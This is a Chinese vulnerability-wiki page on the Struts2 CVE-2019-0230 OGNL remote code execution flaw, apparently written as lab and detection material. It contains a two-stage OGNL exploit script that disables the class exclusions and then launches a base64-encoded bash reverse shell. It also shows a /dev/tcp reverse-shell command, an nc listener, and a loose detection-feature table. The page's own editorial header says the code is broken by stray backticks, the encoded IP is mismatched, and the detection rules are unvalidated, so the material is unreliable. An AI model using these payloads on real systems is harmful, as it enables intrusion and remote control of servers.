





# 一、简介

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2.0–2.5.20、不可信值经标签强制二次求值；两请求沙箱状态相同
- 证据范围：与240两阶段方法同源，所谓规则仅模糊特征清单且载荷区域描述错误。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Python代码整段被反引号拆碎，无法直接运行
- 说明攻击机1.129，所贴base64对应目标1.12的风险需重新核对编码目标
- 表单id在body/query，不是请求头，响应头也不保证包含payload；POST+200+括号不可称有效双向防护规则
- CVSS8.5缺来源/向量；无正式规则、误报/漏报验证
- 缺固定测试版本/修复方案，标题Struts2-059及H1简介应规范

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

2020年08月13日，Apache官方发布了Struts2远程代码执行漏洞的风险通告，该漏洞编号为CVE-2019-0230，漏洞等级：高危，漏洞评分：8.5

# 二、漏洞描述

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。

 

漏洞产生的主要原因是因为Apache Struts框架在强制执行时，会对分配给某些标签属性(如id)的属性值执行二次ognl解析。攻击者可以通过构造恶意的OGNL表达式，并将其设置到可被外部输入进行修改，且会执行OGNL表达式的Struts2标签的属性值，引发OGNL表达式解析，最终造成远程代码执行的影响。

# 三、影响版本

```
Struts 2.0.0 – Struts 2.5.20
```

 

# 四、漏洞复现

## （1）漏洞环境

攻击机：192.168.1.129

靶机：  192.168.1.12

这里使用vulhub，很方便。

```shell
docker-compose up -d
```

启动环境之后访问http://your-ip:8080



（2）漏洞验证

由于该漏洞是存在解析漏洞，也就是对于用户提交的数据进行了二次处理。

从而攻击者对输入的内容进行特意构造，然后实现攻击成。

URL `http://192.168.1.12:8080/?id=%25{2*3}` 



（3）漏洞复现

**构造POC**

用来反弹shell

这里要修改两个地方：

1.靶机IP

192.168.1.12

2.攻击机IP反弹shell base64编码

bash -i >& /dev/tcp/192.168.1.129/6666 0>&1

 

```
import` `requests``url ``=` `"http://192.168.1.12:8080"``data1 ``=` `{``  ``"id"``: ``"%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"``}``data2 ``=` `{``  ``"id"``: ``"%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('bash -c  {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTIvNjY2NiAwPiYxCg==}|{base64,-d}|{bash,-i}'))}"``}``res1 ``=` `requests.post(url, data``=``data1)``res2 ``=` `requests.post(url, data``=``data2)
```

　　

1.监听端口

```shell
nc -lvvp 6666
```

2.运行脚本

```shell
python3 payload.py
```

3.反弹shell



# 五、漏洞分析

攻击的时候抓取数据包





# 六、特征提取

从攻击数据包里可以很清楚的看到，攻击者通过id值=xxx，来传入恶意的payload，

其中 %25是 % ，%7B是{，%7D是}

而请求包中包含payload，例如suricata规则中可以用content来匹配。

我们还是先对发送包进行URL解码:

```
id``=%{(``#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}
```

　

```
这样就很清晰了，可以得到双向规则，来防护这个漏洞的攻击。
```

| 特征              | 说明             |
| ----------------- | ---------------- |
| POST方式          | http.method=POST |
| 状态码 200        |                  |
| 请求头 包含 %     |                  |
| 请求头 包含  {    |                  |
| 请求头 包含  }    |                  |
| 请求头包含payload |                  |
| 响应头包含payload |                  |


---

> 来源：白阁文库 BaizeSec/bylibrary
